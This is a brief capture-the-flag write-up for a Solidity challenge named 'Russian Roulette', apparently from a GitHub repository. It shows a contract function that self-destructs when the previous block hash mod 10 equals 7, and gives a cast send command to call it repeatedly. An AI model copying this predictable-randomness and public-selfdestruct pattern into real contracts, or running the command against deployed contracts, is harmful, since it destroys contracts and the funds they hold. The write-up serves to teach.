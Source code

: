 ```yaml
---
showFullContent: false
readingTime: true
---
```


## Russian Roulette

## code / Description
```solidity
function pullTrigger() public returns (string memory) {
    if (uint256(blockhash(block.number - 1)) % 10 == 7) {
        selfdestruct(payable(msg.sender)); // 💀
    } else {
    return "im SAFU ... for now";
    }
}
```

## Challenge Analysis

The "RussianRoulette" challenge contains a Solidity function that calculates a modulo 10 of the previous block's hash; if the result is 7, it triggers self-destruction of the contract.


## Solution

The solution involves repeatedly calling the pullTrigger() function within the smart contract until the condition where the previous block's hash modulo 10 equals 7 is met, leading to the contract's self-destruction.


## Final Exploit code (optional)

send this transaction until the contract's self-destruction:

```bash
cast send <TARGET_CONTRACT_ADDRESS> "pullTrigger()" --private-key <PRIVATE_KEY> --rpc-url <RPC_URL>
```

> Authors - [Mohammad Eminem](https://github.com/m-amini-sss)
